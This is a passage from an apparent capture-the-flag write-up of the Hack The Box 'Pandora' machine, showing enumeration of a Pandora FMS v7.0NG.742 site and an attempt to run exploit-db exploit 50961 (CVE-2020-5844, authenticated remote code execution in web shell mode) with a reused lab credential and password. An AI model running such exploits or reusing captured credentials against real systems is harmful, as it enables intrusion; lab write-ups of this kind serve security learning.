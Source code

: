 After adding the domain information on `/etc/hosts`, I can fetch the `pandora.panda.htb` page.

![](attachments/pandora_2.png)

I tried to reuse the credential for `daniel` but got rejected.

![](attachments/pandora_3.png)

At the bottom of the main page, there's a version information : `v7.0NG.742_FIX_PERL2020`

### RCE exploit (Authenticated) (failed)

I found an RCE exploit from the following;
https://www.exploit-db.com/exploits/50961

I tried to reuse the credential for `daniel` but it failed.

```bash
┌──(kali㉿kali)-[~/htb/pandora]
└─$ python 50961.py -t locahost 8080 -u daniel -p 'HotelBabylon23'
ERRORED: Provide both a username and password! "-u <username> <password>"



┌──(kali㉿kali)-[~/htb/pandora]
└─$ python 50961.py -t locahost 8080 -u daniel 'HotelBabylon23' 

        _ __,~~~/_        __  ___  _______________  ___  ___
    ,~~`( )_( )-\|       / / / / |/ /  _/ ___/ __ \/ _ \/ _ \
        |/|  `--.       / /_/ /    // // /__/ /_/ / , _/ // /
_V__v___!_!__!_____V____\____/_/|_/___/\___/\____/_/|_/____/....
    
UNICORD: Exploit for CVE-2020-5844 (Pandora FMS v7.0NG.742) - Remote Code Execution
OPTIONS: Web Shell Mode
USERNAME: daniel
```